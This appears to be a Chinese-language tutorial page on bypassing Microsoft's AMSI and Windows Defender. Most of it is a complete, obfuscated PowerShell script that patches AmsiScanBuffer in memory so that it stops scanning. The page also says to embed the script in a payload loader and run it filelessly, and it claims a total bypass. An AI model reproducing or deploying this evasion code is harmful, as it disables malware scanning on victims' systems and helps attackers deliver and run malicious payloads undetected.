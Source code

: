 ### 当然如果你怕代码被云防护标记的话，可以添加一些混淆，比如说字符串的分裂和拼接，或者转换成ASCLL字符码

```
#导入API 函数
$ftkgk = @"
using System;
using System.Runtime.InteropServices;
public class ftkgk {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr gusdon, uint flNewProtect, out uint lpflOldProtect);
}
"@
Add-Type $ftkgk
#通过 rasta-mouse 修补 amsi.dll AmsiScanBuffer
$lospbeo = [ftkgk]::LoadLibrary("$(('âms'+'í.d'+'ll').NOrMALiZe([cHAr](58+12)+[cHAR](111+96-96)+[cHAr](114+68-68)+[char](109+99-99)+[chAR]([bYte]0x44)) -replace [CHAr](92+22-22)+[CHaR](112)+[cHAr]([bYTE]0x7b)+[ChaR]([BYTe]0x4d)+[chAR]([byTE]0x6e)+[ChaR](125))")
$bhijoj = [ftkgk]::GetProcAddress($lospbeo, "$(('ÁmsìScànB'+'uffer').NOrmalizE([ChaR](70+60-60)+[chAR](111+76-76)+[chaR](114)+[char](109*69/69)+[CHAr]([ByTE]0x44)) -replace [ChaR](74+18)+[ChAR]([BYTE]0x70)+[cHAr](123)+[cHaR](77+31-31)+[CHar](110+64-64)+[Char](125+30-30))")
$p = 0
[ftkgk]::VirtualProtect($bhijoj, [uint32]5, 0x40, [ref]$p)
$jniv = "0xB8"
$kgmv = "0x57"
$odgn = "0x00"
$zalk = "0x07"
$cfun = "0x80"
$macm = "0xC3"
$hquzq = [Byte[]] ($jniv,$kgmv,$odgn,$zalk,+$cfun,+$macm)
[System.Runtime.InteropServices.Marshal]::Copy($hquzq, 0, $bhijoj, 6)
```
### 将混淆过后的代码插入解密代码中（pay.ps1）

![image](https://user-images.githubusercontent.com/89376703/155734244-a2185115-0d62-4b8c-96f0-7e09b6caf530.png)
### 放在windows defender环境下用PowerShell无文件执行即可

![image](https://user-images.githubusercontent.com/89376703/155734381-81a55fb3-78f8-4303-b78a-0e88702ff2fb.png)

### 可以看到可以绕过微软，能执行一些基本的命令，但是dumplass应该不行。

## **绕过原理**

### 绕过的关键是这段代码可以阻断amsi.dll中AmsiScanBuffer()这个函数的扫描进程，目前来说，这种方法可以百分之百绕过AMSI
